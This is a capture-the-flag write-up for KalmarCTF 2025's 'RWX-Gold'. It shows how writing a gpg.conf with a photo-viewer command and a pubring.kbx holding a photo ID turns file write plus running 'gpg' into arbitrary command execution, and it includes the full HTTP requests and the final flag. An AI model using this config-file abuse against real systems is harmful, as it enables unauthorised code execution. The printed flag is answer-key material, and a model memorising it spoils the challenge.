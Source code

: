 ```yaml
---
title: RWX-Gold
type: writeup
date: 2025-03-10T03:03:41+03:00
description: Writeup for RWX-Gold [KalmarCTF 2025]
author: h3pha
tags:
- misc
draft: false
---
```

___

## Challenge Description

We give you file read, file write and code execution. But can you get the flag? Let's reduce that.

## Intuition

Since the challenge lets us execute a command with 3 characters we cannot directly execute `/would`, so we need to find something that can execute commands for as. This is `gpg`.

## Solution

#### Step 1 - create the `.gnupg` directory

First we need to execute `gpg` to create the directory `~/.gnupg`:
```
GET /exec?cmd=gpg HTTP/2
```

Then we can find this in `gpg` man page:
```
gpg.conf  
	This  is the standard configuration file read by gpg on startup. It may contain any valid long option; the leading two dashes may not be entered and the option may not be abbreviated. This default name may be changed on the command line (see: [gpg-option --options]).  You should backup this file.
```

So we can write configurations in `gpg.conf`. Further searching the man page for useful options you will stumble upon these:
```
--photo-viewer string
This is the command line that should be run to view a photo ID. "%i" will be expanded to a filename containing the photo. "%I" does the same, except the file  will  not be deleted once the viewer exits.  Other flags are "%k" for the key ID, "%K" for the long key ID, "%f" for the key fingerprint, "%t" for the extension of the image type (e.g.  "jpg"), "%T" for the MIME type of the image (e.g. "image/jpeg"), "%v" for the single-character calculated validity of the image being viewed (e.g. "f"), "%V" for the calculated validity as a string (e.g.  "full"), "%U" for a base32 encoded hash of the user ID, and "%%" for an actual percent sign. If neither %i or %I are present, then the photo will be supplied to the viewer on standard input.

On Unix the default viewer is xloadimage -fork -quiet -title 'KeyID 0x%k' STDIN with a fallback to display -title 'KeyID 0x%k' %i and finally to xdg-open %i. On  Windows !ShellExecute 400 %i is used; here the command is a meta command to use that API call followed by a wait time in milliseconds which is used to give the viewer time to read the temporary image file before gpg deletes it again.  Note that if your image viewer program is not secure, then executing it from gpg does not make it secure.

--list-options parameters  
This  is  a  space  or  comma  delimited  string that gives options used when listing keys and signatures (that is, --list-keys, --check-signatures, --list-public-keys, --list-secret-keys, and the --edit-key functions).  Options can be prepended with a no- (after the two dashes) to give the opposite meaning.  The options are:  
  
show-photos  
Causes --list-keys, --check-signatures, --list-public-keys, and --list-secret-keys to display any photo IDs attached to the  key. Defaults to no. See also --photo-viewer. Does not work with --with-colons: see --attribute-fd for the appropriate way to get photo data for scripts and other frontends.

--list-keys  
-k  
--list-public-keys  
List the specified keys. If no keys are specified, then all keys from the configured public keyrings are listed.
```

So a `gpg.conf` that can execute our commands would look like this:
```
list-options show-photos
photo-viewer /would you be so kind to provide me with a flag > ~/a.txt
list-keys
```

#### Step 2 - write `gpg.conf` file
Request:
```
POST /write?filename=/home/user/.gnupg/gpg.conf HTTP/2

list-options show-photos
photo-viewer /would you be so kind to provide me with a flag > ~/a.txt
list-keys
```

Now executing `gpg` won't execute our command because there are no `keyrings` on the remote machine that have images to display. We need to write a key that has an image to display in `~/.gnupg/pubring.kbx`.

#### Step 3 - create the `pubring.kbx` file

On your machine you can follow the commands (for the `jpg` image I used [this](https://github.com/mathiasbynens/small/blob/master/jpeg.jpg)):
```sh
gpg --gen-key
# input a name, email and password (eg. John Doe, john@gmail.com, 1234)
gpg --edit-key john@gmail.com
> addphoto /paht/to/jpg # careful if you use my jpg image, it is a pixel small, look carefully when it is displayed
> save
```

You file should be saved at `~/.gnupg/pubring.kbx`.

Request:
```
POST /write?filename=/home/user/.gnupg/pubring.kbx HTTP/2

<Your pubring.kbx file content here. (you can use a python script for this request)>
```

#### Step 4 - get the flag

Execute `gpg`:
```
GET /exec?cmd=gpg HTTP/2
```

Read the flag:
```
GET /read?filename=/home/user/a.txt HTTP/2
```

### Flag

`kalmar{so_many_rabbit_holes_to_get_stuck_in_but_luckily_you_found_a_way_to_view_that_picture_678cac2678d0}`

## References
[gpg manpage](https://www.gnupg.org/documentation/manuals/gnupg24/gpg.1.html)
